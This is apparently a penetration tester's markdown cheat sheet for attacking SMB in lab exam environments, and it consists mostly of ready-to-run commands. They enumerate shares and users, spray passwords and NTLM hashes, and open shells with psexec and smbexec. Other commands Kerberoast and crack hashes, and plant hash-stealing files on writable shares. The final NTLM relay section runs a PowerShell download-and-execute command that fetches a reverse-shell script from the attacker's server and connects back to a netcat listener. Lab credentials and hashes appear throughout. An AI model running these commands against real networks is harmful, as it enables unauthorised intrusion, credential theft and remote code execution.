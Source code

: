 ```
nxc smb ip -u '' -p ''
```
- also try with 'guest' user
null session/list shares
```
smbclient -L \\192.168.1.1 -N
```

anonymous session/ list shares
```
smbclient -L \\10.129.235.244
```

null session/specific share
```
smbclient \\\\192.168.1.1\\ADMIN$ -N
```

if space in share name:
```
smbclient //10.10.11.51/Accounting\ Department  -U rose
```
- escape character `\` for space (does not work with `smbclient.py`)

no creds, need users
```
lookupsid.py vulnnet-rst.local/guest@10.10.111.177
```
output just user list:
```
lookupsid.py flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee users
```

if found creds:
```
smbclient.py oscp.exam/web_svc:Diamond1@10.10.159.146
```
- if can't download file or something, try this:
```
smbclient //10.129.139.85/HR -U ''
```
- password prompt after command is run
if user has access to ADMIN$ share, psexec.py will work
```
psexec.py oscp.exam/fmcsorley:CrabSharkJellyfish192@10.10.138.152
```

spray (hash):
```
nxc smb 10.10.126.146-148 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'
```

if pwned, execute commands:
```
nxc smb 10.10.126.146 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5' -x 'type C:\Users\Administrator\Desktop\proof.txt'
```

shell:
```
smbexec.py MS02/administrator:hghgib6vHT3bVWf@10.10.138.154
```
```
psexec.py oscp.exam/administrator@10.10.138.152 -hashes '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5
```

Gained initial access, but want hashes to service accounts:
```
GetUserSPNs.py -dc-ip 10.10.159.146 -request -outputfile hashes oscp.exam/web_svc:"Diamond1"
```
crack hashes
```
hashcat -m 13100 <hashes-file> /path/to/wordlist
```
pass the hash:
```
nxc smb 10.10.126.146-148 -u 'Administrator' -H '00000000000000000000000000000000:59b280ba707d22e3ef0aa587fc29ffe5'
```

list all files in smb
```
nxc smb 10.10.148.132 -u 'guest' -p '' -M spider_plus && cat /tmp/nxc_hosted/nxc_spider_plus/10.10.148.132.json
```

list all shares and top level folders
```
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.129.78.4 -r
```

list shares and specific folder contents
```
smbmap -u svc_tgs -p GPPstillStandingStrong2k18 -H 10.129.78.4 -r Users/SVC_TGS/Desktop
```

if *write* access to any empty share, worth trying to upload malicious files:
- can tell if shares have write access from `nxc smb 10.129.228.120 -u svc_apache -p 'S@Ss!K@*t13' --shares`
```
python ntlm_theft.py --generate all --server <kali ip> --filename dank
```
- create malicious files
`sudo responder -I tun0`
- start responder
`smbclient //flight.htb/shared -N`
- connect to empty share (null session in example above)
- `prompt false`
	- prevents being asked to upload files (neccesary)
- `mput *`
	- uploads all files in current directory
	- run from 'dank' directory created with `ntlm_theft.py`
wait for responder to receive ntlm2 hash and crack with hashcat:
```
hashcat -m 5600 -a 0 -o cracked.txt --force hash.txt /usr/share/wordlists/rockyou.txt
```

if run into STATUS_PASSWORD_MUST_BE_CHANGED with nxc, use command:
```
smbpasswd -U BABY/caroline.robinson -r 10.10.91.158
```
- to change password

write access to smb share, try uploading:
```
sudo python3 /opt/hashgrab.py 10.13.64.37 test
```
- IP is tun0 on my kali
- start smb server `smbserver.py smb share/ -smb2support`
- via smbclient.py `smbclient.py narasec/guest:''@192.168.195.30` upload file via `put test.lnk` to `/Documents` or something similar
- should see hash in smb server


***NTLM Relay over SMB***
```
sudo sed -i "s/SMB = On/SMB = Off/" /usr/share/responder/Responder.conf
```
- turn off smb in responder (so doesnt conflict with ntlmrelayx)
- switch back to On to re-enable afterwards  `sudo sed -i "s/SMB = Off/SMB = On/" /usr/share/responder/Responder.conf`
```
nxc smb 172.16.117.0/24 --gen-relay-list relayTargets.txt
```
- create list of IPs from subnet with smb signing disabled so can be used to relay, saved as file relayTargets.txt in current directory
```
sudo responder -I tun0 
```
- start responder
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support
```
- output might show Administrator local SAM hash, if session relayed has privileged access on the target machine. if nothing useful in output, try command execution:
```
cp /home/daniel/Downloads/nishang-master/Shells/Invoke-PowerShellTcp.ps1 .
```
- copy Invoke-PowerShellTcp.ps1 to current directory
```
python3 -m http.server 8000
```
- serve Invoke-PowerShellTcp.ps1 on a http server
```
rlwrap -cAr nc -lnvp 7331
```
- catch the rev shell
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```
- assumes my IP is 172.16.117.30